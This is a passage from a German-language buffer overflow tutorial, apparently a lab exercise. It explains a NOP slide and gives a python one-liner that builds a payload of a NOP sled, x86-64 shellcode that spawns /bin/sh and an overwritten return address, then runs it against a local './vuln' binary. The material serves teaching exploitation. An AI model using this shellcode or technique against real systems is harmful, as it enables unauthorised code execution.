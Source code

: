 Die 'A's im Pythonscript durch NOP's ersetzen (\x90). Wird ein NOP vom Programm angesprungen, wird einfach der IP um eins 
hochgezählt, bis ein gültiger Befehl gefunden wird (NOP-Rutsche). Bei uns also unser Shellcode.
```bash
run $(python3 -c "import sys;sys.stdout.buffer.write(b'\x90'*490+b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'+b'\xf0\xe2\xff\xff\xff\x7f')")
```
<br>

___
## Schritt 9: Exploit
Python-Script in neue Datei exploit.py schreiben und dann
```bash
./vuln `python3 exploit.py`
```
![image6](img/result.png)
